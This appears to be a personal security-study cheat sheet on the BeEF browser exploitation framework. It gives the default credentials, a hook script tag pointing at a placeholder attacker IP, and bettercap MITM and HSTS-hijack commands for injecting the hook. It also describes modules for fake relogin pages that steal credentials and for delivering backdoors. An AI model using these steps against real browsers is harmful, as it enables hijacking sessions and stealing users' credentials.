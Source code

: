 ```yaml
---
tags: [security, tool, web]
---
```


BeEF : Browser Exploitation Framework  
Makes use of JS to hook the target browser. Works on any platform as long as target device browser supported JS

Username : beef  
Password : password

<u>Hook URL</u>

````bash
<script src="http://<attacker-ip-address>:3000/hook.js"></script>
````

The URL can be sent to the target using various methods like Social Engineering, MITM attack with DNS spoofing, XSS or JS Injection after performing MITM attack

### Tabs Explained

Detail Tab : Browser Details  
Logs : Events that occurred in the browser  
Commands : Run various commands  
Proxy : Allows to use hooked browser as a proxy  
XssRays : Shows if page has any XSS vulnerabilities  
Network : Overview of current network

<u>Load Hook Script on all Sites (MITM + JS Injection)</u>

Inject Beef Code : <https://drive.google.com/file/d/1uCeGZKyP1Cj2UIORqYMrlFTyi9dLaCUa/view?usp=sharing>  
Add the JS Script in the HSTS Hijack caplet file and perform MITM attack

````bash
bettercap -iface <interface> -caplet <sniff-data-cap-file>
hstshijack/hstshijack (Run HSTS Caplet)
````

### Commands

1. <u>Create Alert Dialog</u>  
   Create an dialog box on the target browser
2. <u>Raw JavaScript</u>  
   Execute JS code on the target browser
3. <u>Spyder Eye</u>  
   Take screenshot of the target browser screen
4. <u>Redirect Browser</u>  
   Redirect the target to an different webpage
   Can be used to redirect to download an backdoor, fake login page, etc.
5. <u>Get Visited URL</u>  
   Check of a URL was visited by the target
6. <u>Pretty Theft</u>  
   Create fake relogin page to steal credentials
7. <u>Fake Notification Bar</u>  
   Send Backdoor, malicious code to user using an fake notification message  
   If sending an backdoor ensure to start "Multi Handler" to listen to the connection
